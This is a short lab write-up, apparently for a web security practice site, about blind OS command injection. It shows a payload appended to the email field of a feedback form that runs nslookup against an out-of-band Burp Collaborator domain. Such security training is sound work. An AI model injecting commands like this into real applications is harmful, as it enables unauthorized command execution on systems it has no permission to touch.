






Write-up by wook413

# Lab: Blind OS command injection with out-of-band interaction

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

---

Since the lab description states that the feedback function is vulnerable to OS command injection, I navigated straight to the feedback page by clicking the **'Submit feedback'** button.

I filled out the form with arbitrary information and submitted it.

Then I pulled up the POST request I had just sent to the `/feedback/submit` endpoint.

Next, I navigated to Collaborator and clicked **'Copy to clipboard'** to copy an external domain.

In the previous labs, the `email` parameter was vulnerable, so I started by testing that parameter. I appended `||nslookup rb63kpcki9z1rdbm4f7tbjcktbz2ntbi.oastify.com||` to the value of the `email` parameter and sent the request.

I navigated back to Collaborator and clicked **'Poll now'**. It immediately showed two DNS requests, indicating that the out-of-band command injection payload had been executed.

### Solved!

